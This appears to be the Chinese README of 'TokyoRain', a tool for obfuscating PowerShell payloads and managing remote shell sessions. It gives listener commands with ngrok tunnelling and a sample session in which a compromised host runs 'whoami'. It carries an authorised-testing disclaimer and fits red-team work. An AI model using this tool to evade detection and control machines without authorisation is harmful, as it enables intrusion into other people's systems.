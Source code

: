 # 🌧️ TokyoRain - 智能混淆工具

让PowerShell载荷像东京细雨般隐秘

## 🚀 核心功能

- **动态混淆**：每次生成不同指纹的载荷
- **隧道穿透**：Ngrok支持内网连接
- **多会话管理**：同时处理5个连接
- **终端美化**：彩色命令行界面

## 🛠️ 快速开始

1. 克隆仓库
```bash
git clone https://github.com/9Insomnie/TokyoRain.git
cd TokyoRain
```

2. 安装依赖
```bash
pip install -r requirements.txt
```

3. 启动监听
```bash
# 基础模式
python tokyo.py -l 你的IP -p 端口

# 显示原始载荷
python tokyo.py -r raw

# Ngrok模式
python tokyo.py -n ngrok
```

## 🌧️ 使用示例

```
[+] 新连接: 192.168.1.15:55328  
输入会话编号 (1-3) 或 0 退出: 1

192.168.1.15:55328 > whoami
desktop-9ins0m\admin
```

## ⚠️ 注意事项

- 仅限授权测试使用
- 建议在虚拟机环境运行
- 遵守当地法律法规

## 📜 开源协议

MIT Licensed | 开发者 [9Insomnie](https://github.com/9Insomnie)
```

<center>🖇️ 让安全测试像东京夜雨般优雅隐秘</center>
